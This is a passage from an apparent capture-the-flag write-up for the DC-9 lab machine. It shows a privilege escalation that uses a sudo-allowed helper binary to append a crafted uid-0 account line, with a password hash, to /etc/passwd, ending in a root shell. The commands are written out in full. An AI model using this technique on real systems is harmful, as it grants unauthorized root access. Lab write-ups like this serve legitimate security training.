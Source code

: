 i run the script with no argument to see any help :

```bash
fredf@dc-9:/var/tmp$ sudo /opt/devstuff/dist/test/test
Usage: python test.py read append

```

As we can see the script job is taking two argument and appending what is in the first file to the second file

## Privilege Escalation
So to abuse the script we will create a file that has a user with root privilege and append it to /etc/passwd

we do that using this commands :

```bash
cd /var/tmp

echo "levay:$1$wxlphFbS$w4ZyKO.rbUpYGdps2TvNn0:0:0:levay:/home/levay:/bin/bash" > levay

```

next we run the script : 

```bash

sudo /opt/devstuff/dist/test/test /var/tmp/levay /etc/passwd

```

we switch to our added user "levay" , and we are root :


```bash
fredf@dc-9:/var/tmp$ su levay
Password: 
root@dc-9:/var/tmp# id
uid=0(root) gid=0(root) groups=0(root)


```
